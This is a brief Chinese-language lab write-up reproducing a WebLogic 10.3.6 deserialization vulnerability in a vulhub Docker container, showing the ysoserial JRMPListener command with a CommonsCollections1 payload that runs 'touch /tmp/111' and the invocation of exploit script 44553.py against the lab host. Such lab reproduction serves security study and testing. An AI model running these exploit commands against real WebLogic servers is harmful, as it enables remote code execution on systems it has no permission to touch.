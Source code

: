 漏洞复现：

![image-20221017041621129](../../images/image-20221017041621129.png)

攻击机为kali linux
在JRMPListener主机上运行命令

```
docker run -ti -p 7001:7001 vulhub/weblogic:10.3.6.0-2017
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 "touch /tmp/111"
```

![image-20221017054712858](../../images/image-20221017054712858.png)

运行exploit脚本

```
python2 44553.py 192.168.0.101 7001 ysoserial-all.jar 192.168.0.101 1099 JRMPClient
```

进入docker靶机查看文件是否创建成功
